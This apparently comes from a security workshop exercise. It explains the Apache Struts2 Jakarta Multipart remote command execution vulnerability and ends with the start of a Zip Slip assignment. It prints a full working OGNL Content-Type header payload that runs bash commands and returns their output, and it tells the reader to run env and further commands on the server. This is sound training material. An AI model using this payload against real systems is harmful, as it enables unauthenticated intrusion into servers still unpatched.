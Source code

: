 The vulnerability exists in the ```org.apache.struts:struts2-core``` package.

Affected versions of the package are vulnerable to Arbitrary Command Execution while uploading files with the Jakarta Multipart parser. This particular vulnerability can be exploited by an attacker by sending a crafted request to upload a file to the vulnerable server that uses a Jakarta-based plugin to process the upload request.

The attacker can then send malicious code in the ```Content-Type```, ```Content-Disposition``` or ```Content-Length``` HTTP headers, which will then be executed by the vulnerable server. A proof of concept that demonstrates the attack scenario is publicly available and the vulnerability is being actively exploited in the wild.

Although maintainers of the open source project immediately patched the vulnerability, Struts servers that have yet to install the update remain under attack by hackers who exploit it to inject commands of their choice.

This attack can be achieved without authentication. To make matters worse, web applications don't necessarily need to successfully upload a malicious file to exploit this vulnerability, as just the presence of the vulnerable Struts library within an application is enough to exploit the vulnerability.

Here is an example header which can exploit the vulnerability. Notice the content type starts with ```%{```.

```
"Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='COMMAND').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

You’ll notice a ```ProcessBuilder``` is created and a bash command will be executed as a result.

Hack the application by making an HTTP GET request to the application, sending this header in the request.

Click to see [Hint 1](https://github.com/snyk/exploit-workshop/blob/master/struts/hint1.md).

Click to see [Hint 2](https://github.com/snyk/exploit-workshop/blob/master/struts/hint2.md).

You should by now have executed a remote command, like this env command to retrieve the environment variables of your machine:

![Struts vuln exploits](https://github.com/snyk/exploit-workshop/blob/master/images/image6.png)

At this state you now have execution rights on the machine through curling an URL. Continue to run other commands to see what you can learn about the machine as well as run on the machine.

# Assignment 2: Zip Slip

Create a new Maven project in your IDE of choice. I won’t judge you. Add a new dependency in your ```pom.xml``` file.
